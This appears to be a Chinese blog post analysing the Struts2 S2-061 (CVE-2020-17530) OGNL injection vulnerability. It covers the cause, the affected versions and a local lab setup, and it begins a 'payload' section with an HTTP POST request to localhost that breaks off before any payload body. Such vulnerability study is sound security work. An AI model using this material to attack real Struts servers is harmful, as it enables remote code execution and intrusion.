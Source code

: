 ```yaml
---
layout: post
title: "S2-061"
subtitle: 'S2-061漏洞分析'
author: "taomujian"
header-style: text
tags:
  - Struts2 漏洞分析
---
```


## 前言

> 这是Struts系列第十七篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> S2-061漏洞,又名CVE-2020-17530漏洞

> Struts2框架会对某些标签属性(比如id)的属性值进行二次表达式解析,因此当这些标签属性中使用了%{x}且x的值用户可控时,传入一个将在呈现标签属性时再次解析的OGNL表达式,就可以造成OGNL表达式注入,造成任意代码执行.S2-061是对S2-059修复方案的绕过,触发流程基本上是一致的.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-061)

#### 漏洞成因

> Struts2框架会对某些标签属性(比如id)的属性值进行二次表达式解析,因此当这些标签属性中使用了%{x}且x的值用户可控时,传入一个将在呈现标签属性时再次解析的OGNL表达式,就可以造成OGNL表达式注入,造成任意代码执行.S2-061是对S2-059修复方案的绕过,触发流程基本上是一致的.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.5.25

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了.

### Payload

#### 执行命令

```html
POST /s2_061_war_exploded/index.action;jsessionid=79E61355244F9B654BF1EDF344179E2A HTTP/1.1
Host: localhost:8080
Content-Length: 900
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
```